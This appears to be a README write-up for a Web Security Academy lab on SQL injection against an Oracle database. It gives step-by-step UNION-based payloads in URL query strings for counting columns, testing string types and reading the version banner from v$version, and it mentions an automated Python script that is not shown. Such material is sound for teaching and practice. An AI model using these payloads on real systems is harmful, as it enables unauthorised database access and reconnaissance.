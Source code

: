 # SQL Injection Lab 03 - SQL injection attack, querying the database type and version on Oracle

## Manual Solution

### 1. Access the lab in Web Security Academy
### 2. Determine the number of columns for UNION attack
### 3. Use ORDER BY to find column count:
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

### 4. Verify column data types:
   - Test: `/filter?category=Gifts' UNION SELECT '1', '2'--`
   - Result: Values '1' and '2' displayed (confirms string compatibility)

### 5. Extract database version:
   - Payload: `/filter?category=Gifts' UNION SELECT NULL,banner FROM v$version--`
   - Result: Database version information displayed


## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_03.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

